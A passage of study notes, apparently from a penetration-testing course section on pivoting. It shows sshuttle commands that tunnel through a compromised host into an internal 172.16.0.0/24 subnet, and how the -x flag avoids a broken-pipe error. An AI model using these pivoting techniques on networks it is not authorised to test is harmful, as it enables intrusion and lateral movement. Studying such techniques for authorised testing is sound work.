eg. `sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24`

> Note: error may occur if it is part of subnet you are trying to access

```
client: Connected.
client_loop: send disconnect: Broken pipe
client: fatal: server died with error code 255
```

ie. connecting to `172.16.0.5` and forward `172.16.0.0/24`. Including compromised server inside the newly forwarded subnet

We can get around this with `-x` to create connection without disrupting itself

eg. `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`

</details>

## 12. Pivoting - Conclusion

<details>
  <summary>---</summary>

</details>
